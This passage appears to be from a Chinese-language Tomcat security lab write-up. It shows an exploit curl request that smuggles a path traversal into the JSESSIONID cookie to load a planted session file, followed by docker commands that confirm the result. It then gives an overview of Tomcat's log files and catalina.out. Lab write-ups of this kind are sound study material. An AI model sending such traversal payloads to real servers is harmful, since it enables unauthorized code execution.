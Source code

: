 ![image-20240716170719894](https://image.201068.xyz/assets/image-20240716170719894.png)

##### Exploit

```
curl 'http://192.168.70.14:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../usr/local/tomcat/groovy'
```

![image-20240716171820258](https://image.201068.xyz/assets/image-20240716171820258.png)

##### Check (exploited)

```
docker exec -it 0aaf66361e73 ls -la /tmp
```

![image-20240716171850173](https://image.201068.xyz/assets/image-20240716171850173.png)

#### 进入终端

```
docker exec -it 0aaf66361e73 /bin/bash
ls -la /tmp
```

## 4、Tomcat 日志文件介绍 

### 1、tomcat五类日志

> catalina、localhost、manager、 admin、host-manager

```
cd /usr/local/apache-tomcat-8.0.43/logs
ll
```

```
[root@centos logs]# ll
总用量 260
-rw-r--r-- 1 root root 90324 7月  15 17:08 catalina.2024-07-15.log
-rw-r--r-- 1 root root 90324 7月  15 17:08 catalina.out
-rw-r--r-- 1 root root     0 7月  15 11:25 host-manager.2024-07-15.log
-rw-r--r-- 1 root root  7028 7月  15 17:08 localhost.2024-07-15.log
-rw-r--r-- 1 root root 59965 7月  15 16:42 localhost_access_log.2024-07-15.txt
-rw-r--r-- 1 root root  5220 7月  15 16:18 manager.2024-07-15.log
```

###  2、`catalina.out`

`catalina.out` 即**标准输出和标准出错**，所有输出到这两个位 置的都会进入catalina.out，这里包含tomcat运行自己输 出的日志以及应用里向console输出的日志。默认这个日志 文件是不会进行自动切割的，我们需要借助其他工具进行切割（注意：catalina.out文件如果过大会影响） 

Tomcat 下默认`manager`应用日志，文件名`manager.日期.log`， 控制台输出的日志，Linux下默认重定向到`catalina.out`。
